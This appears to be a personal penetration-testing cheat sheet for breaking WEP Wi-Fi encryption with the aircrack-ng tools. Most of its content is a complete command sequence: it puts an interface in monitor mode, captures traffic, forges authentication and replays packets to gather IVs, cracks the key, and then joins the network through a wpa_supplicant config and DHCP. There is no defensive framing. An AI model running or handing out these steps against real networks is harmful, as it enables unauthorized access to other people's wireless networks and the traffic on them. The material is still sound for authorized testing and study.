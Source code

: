 # WEP

- Start interface in monitor mode
    - `sudo airmon-ng start wlan0`
- Run airodump to find networks
    - `sudo airodump-ng wlan0mon`
- Run airodump on specific AP
    - `sudo airodump-ng --bssid <BSSID> -c <channel> -w <output_file> wlan0mon`
- Create FAKE AUTH request on AP
    - `sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon`
- Concurrently, generate traffic for IV’s
    - `sudo aireplay-ng -3 -b <BSSID> -h <Client MAC> wlan0mon`
- Crack key
    - `sudo aircrack-ng <output_file>.cap`
    
- Once got password, create a config file
    - `vi <filename>.conf`
    
    ```bash
    network={
      ssid="<SSID NAME>"
      key_mgmt=NONE
      wep_key0=<<CRACKED PASSWORD HERE>> #note there is no quotes here
      wep_tx_keyidx=0
    }
    ```
    
- Connect to WEP network with config file
    - `sudo wpa_supplicant -Dnl80211 -i wlan1 -c <filename>.conf`
- Try to retrieve IP Address from DHCP server
    - `sudo dhclient wlan1 -v`
- IP address will be displayed, just curl to the ip address
